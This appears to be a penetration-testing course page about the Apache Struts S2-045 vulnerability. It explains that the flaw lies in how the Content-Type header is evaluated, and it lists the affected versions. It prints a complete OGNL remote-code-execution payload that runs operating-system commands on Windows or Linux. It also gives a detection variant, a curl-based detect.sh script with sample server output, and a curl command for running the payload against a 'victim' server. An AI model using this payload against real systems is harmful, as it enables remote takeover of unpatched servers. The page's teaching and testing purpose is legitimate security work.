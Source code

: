 # Struts s2-045

This course details how to gain code execution when a Struts application is vulnerable to [s2-045](https://struts.apache.org/docs/s2-045.html) . This vulnerability has already been widely exploited in the wild and is  easily "worm-able". Therefore, it's essential that you know how to test  for it. It is also believe to be the vulnerability that was used to hack Equifax.

### Vulnerability

Struts s2-045 impacts the following versions of Struts: 

- Struts 2.3.5 
- Struts 2.3.31
- Struts 2.5 
- Struts 2.5.10

The issue comes from the evaluation of the `Content-Type`  header when an error is generated by the framework. The vulnerable code  is located in the management of file upload but can be triggered even if the application does not have an upload functionality.

### The payload

A lot of exploits are already available, most of them are just wrappers around the following payload:

```
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

The payload is used as the `Content-Type` for the request.

### Detection

We can easily tweak this payload to allow us to detect the vulnerability without trying to run command.

```
%{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}
```



```bash
$ cat detect.sh 
curl --header "Content-Type: %{(#n='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getWriter())).(#ros.print('\ntest\n\n'))}" $1 
$ sh detect.sh [SERVER]

test

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html>
<head>
    <META HTTP-EQUIV="Refresh" CONTENT="0;URL=example/HelloWorld.action">
</head>

<body>
<p>Loading ...</p>
</body>
</html>
```

### Gaining code execution

Gaining code execution with this payload is as simple as running a `curl` command with the right argument:

```
$ curl --header "Content-Type: [PAYLOAD]" http://[SERVER]/
```

Where: 

- `[PAYLOAD]` is your payload.
- `[SERVER]` is the victim.